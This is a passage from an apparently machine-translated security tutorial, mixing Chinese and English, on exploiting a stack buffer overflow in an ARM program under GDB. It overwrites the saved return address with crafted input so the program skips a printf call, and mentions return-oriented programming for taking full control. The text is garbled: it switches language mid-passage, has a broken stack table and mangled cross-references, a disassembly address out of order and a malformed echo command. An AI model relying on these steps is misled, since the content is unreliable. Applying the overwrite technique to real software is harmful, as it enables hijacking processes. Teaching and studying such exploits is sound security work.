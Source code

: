     无趣的堆栈内容

     | 

    输入缓冲区字段

     | 

    保存的 lr 值

     |
    | --- | --- | --- |
    | …0 个 xbee 6 个 fc75 | [16 个字符] | 0x00000 | 0x？？ | 0x？？ |

    这里`0x??`字符表示我们调用`strcpy`来覆盖返回地址的额外输入字符；我们再次在额外的输入字符后看到`0x00`字符。

7.  Relaunch the GDB server with the given input; try skipping over the `printf "you lose"` call and checking that it wasn't executed—this makes for an easy way to check if you've successfully redirected execution. Here's how you can grab an example address to redirect execution flow to. Disassemble the main section by executing the following command in the GDB shell:

    ```java
    disass main

    ```

    这将产生以下输出:

    ```java
    0x000084ec <+0>:  push {r3,lr}
    0x000084ee <+2>:  ldr r0,[r1, #4]
    0x000084f0 <+4>:  bl 0x84d0 <vulnerable>
    0x000084f4 <+8>:  ldr r0, [pc, #8]
    0x000084f6 <+10>:  add r0,pc
    0x000084f8 <+12>:  blx 0x83f8
    0x000084fc <+16>:  movs r0,#0
    0x000084f3 <+18>:  pop {r3,pc}
    0x00008500 <+20>:  andeq r1,r0,r2,asr,r5

    ```

    `0x000084f8`处的`blx`指令显然是对`printf`的调用，因此，如果我们想跳过它，我们需要抓取紧随其后的指令的地址，即`0x000084fc`。更具体地说，我们将把以下作为我们计划的输入:

    `[16 padding chars] \xfc\x84`

    由于体系结构的字符顺序，指定返回地址的字节以相反的顺序给出。

8.  Relaunch the application using the GDB server, this time giving it the following input:

    ```java
    echo –e "1234567890123456\xfc\x84"`

    ```

    如果一切顺利，您应该不会看到应用程序打印`"you lose"`消息，而只是退出。

你能做的远不止跳过一个简单的`print`指令；在某些情况下，您甚至可以完全控制运行具有此类漏洞的程序的进程。有关如何做到这一点的更多信息，请参见*中标题为*无返回的面向返回编程*的链接，另请参见*部分。有关一般内存损坏攻击的良好来源，请参见*内存损坏攻击、(几乎)完整历史记录*以及*中的*粉碎堆栈获取乐趣和利润*链接，另请参见*部分。
